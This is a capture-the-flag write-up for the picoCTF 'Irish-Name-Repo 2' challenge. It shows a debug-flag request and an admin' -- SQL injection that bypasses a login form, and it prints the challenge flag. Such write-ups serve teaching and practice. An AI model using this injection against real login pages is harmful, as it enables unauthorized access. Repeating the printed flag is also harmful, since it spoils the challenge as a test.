 ** Tristan Gomez **

# Irish-Name-Repo 2

### Author: Xingyang Pan

### Description:

`
There is a website running at https://jupiter.challenges.picoctf.org/problem/53751/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
`

### Hints: 
  * The password is being filtered

### Step 1

When first visiting the challenge site, we are greeted by the same "List 'o the Irish!" page from the first "Irish-Name-Repo" challenge. Click the hamburger menu icon on the top left of the screen and select the "Admin Login" page. 

### Step 2

The admin login page has the same `username` and `password` fields as before, but let's inspect the HTML to be sure. After inspecting the page, we see that the form is exactly the same as the first challenge. There is a hidden `debug` parameter that is set to `0` by default. The form performs a **POST** to `/login.php`. Using the Python requests library, lets craft a payload.

```
setDebugFlagPayload = {
  'username' : 'test',
  'password' : 'test',
  'debug' : '1'
}
```

The response payload 
```
<pre>
username: test
password: test
SQL query: SELECT * FROM users WHERE name='test' AND password='test'
</pre>
<h1>Login failed.</h1>
```

Sadly there is no new information from setting the debug flag, but this is enough information to work with. 

### Step 3

Let's try the same payload (`admin' --`) as the first challenge by manually entering it into the form for the `username` parameter. Bam, the payload works! We are greeted by

```
Logged in!
Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```
**FLAG: picoCTF{m0R3_SQL_plz_c34df170}**

